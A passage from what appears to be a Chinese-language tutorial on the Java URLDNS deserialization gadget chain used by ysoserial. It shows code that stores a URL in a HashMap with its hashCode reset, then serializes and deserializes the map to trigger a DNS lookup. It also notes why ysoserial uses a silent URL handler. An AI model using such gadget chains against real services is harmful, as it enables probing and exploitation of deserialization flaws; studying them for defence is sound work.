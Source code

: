 ```java
        f.set(url, -1); //防止put就先进行解析DNS
        ht.put(url,"RRR");


        //序列化写文件
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("out.bin"));
        oos.writeObject(ht);
        //反序列化触发payload
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("out.bin"));
        ois.readObject();

    }

}
```

ysoserial为了防⽌在⽣成Payload的时候也执⾏了URL请求和DNS查询，所以重写了⼀个SilentURLStreamHandler 类，这不是必须的。
